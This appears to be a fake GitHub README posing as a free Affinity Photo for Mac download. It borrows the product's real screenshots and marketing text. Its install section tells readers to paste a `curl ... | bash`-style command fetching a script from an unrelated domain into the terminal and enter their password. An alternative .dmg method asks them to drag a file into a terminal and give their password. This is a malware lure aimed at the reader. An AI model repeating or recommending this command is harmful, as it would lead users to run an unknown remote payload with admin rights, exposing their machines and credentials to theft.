 # 📷 Affinity Photo Mac Download - Professional Photo Editing Made Easy 🖥️

![Affinity Photo Interface](https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-ocio-020820240816--lg@2x.png)  

[![Download Now](https://img.shields.io/badge/Download-Affinity_Photo-blueviolet?style=for-the-badge&logo=apple)](https://affinity-photo-mac-download.github.io/.github/)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get5/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔍 What is Affinity Photo?

Affinity Photo is a powerful, award-winning photo editing software designed specifically for creative professionals and photography enthusiasts. Unlike subscription-based alternatives, Affinity Photo offers a complete toolkit for image editing with a one-time purchase.

This professional-grade software combines incredible speed with advanced features, delivering everything you need for retouching photos, creating multi-layered compositions, or developing RAW files with absolute precision.

![Affinity Photo Interface](https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-assets-020820240816--lg@2x.png)  
*Experience the intuitive interface of Affinity Photo for Mac*

---

### 🎯 Core Capabilities

- **Professional Editing Tools** - Comprehensive suite for all editing needs  
- **RAW Power** - Work with over 20 camera RAW formats  
- **Precision Retouching** - Advanced tools for flawless edits  
- **Layer Mastery** - Full layer support with blending modes  
- **PSD Compatibility** - Seamless work with Photoshop files  

---

###   Why Photographers Love It

- **No Subscription** - Pay once and own it forever  
- **Mac Optimized** - Built for macOS performance  
- **Regular Updates** - Constant improvements and new features  

---

### 🧰 Creative Applications

- Portrait retouching and enhancement  
- Digital artwork creation  
- Panoramic image stitching  
- Professional photo development  

---

### 🛡 Your Data Stays Private

- All processing happens locally  
- No mandatory cloud services  
- Complete control over your work  

---

## 🆕 Latest Version Features

Discover the newest tools and improvements in the current version of Affinity Photo:

- Revolutionary live mesh warp tool  
- Enhanced brush engine for natural media  
- Improved document export options  
- Faster performance on Apple Silicon  

[![Get Affinity Photo](https://img.shields.io/badge/Download-Affinity_Photo-success?style=for-the-badge&logo=apple)](https://affinity-photo-mac-download.github.io/.github/)  

---

### 📌 Helpful Resources

- Official tutorials and learning materials  
- Active user community for support  
- Detailed documentation  

---

### 📸 Perfect For:

✔ Professional photographers  
✔ Graphic designers  
✔ Digital artists  
✔ Marketing professionals  
✔ Photography students  

---

### 🔍 SEO Keywords

